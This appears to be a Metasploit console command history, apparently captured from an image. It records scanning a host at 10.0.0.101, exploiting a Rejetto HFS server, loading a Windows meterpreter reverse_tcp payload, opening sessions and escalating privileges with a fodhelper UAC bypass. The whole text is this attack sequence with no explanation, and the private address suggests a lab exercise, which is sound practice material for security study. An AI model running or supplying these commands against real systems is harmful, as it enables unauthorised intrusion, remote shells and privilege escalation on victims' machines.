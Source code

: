 ```
show payloads
set payload windows/x64/meterpreter/reverse_tcp
options
run
workspace
workspace -a Bob
workspace Bob 
workspace 
db_nmap -sS -T4 10.0.0.101
db_nmap -sV -T4 10.0.0.101
show services
show service
services
workspace Bob 
search rejetto
info rejetto
use exploit/windows/http/rejetto_hfs_exec 
info
hosts
set RhOST 10.0.0.101
show infor
show info
run
sessions
sessions
sessions
sessions 1
search psexec
search psexec platform:windows
sessions 1
use exploit/windows/local/bypassuac
use exploit/windows/local/bypassuac_fodhelper 
options
set SESSION 1
options
run
sessions
options
set target Windows x64
options
run
sessions 1
db_nmap -sS -T4 10.0.0.101
db_nmap -sV -T4 10.0.0.101
exit
workspace Bob 
hosts
search rejetto
use exploit/windows/http/rejetto_hfs_exec 
show info
hosts
set RhOST 10.0.0.101
```
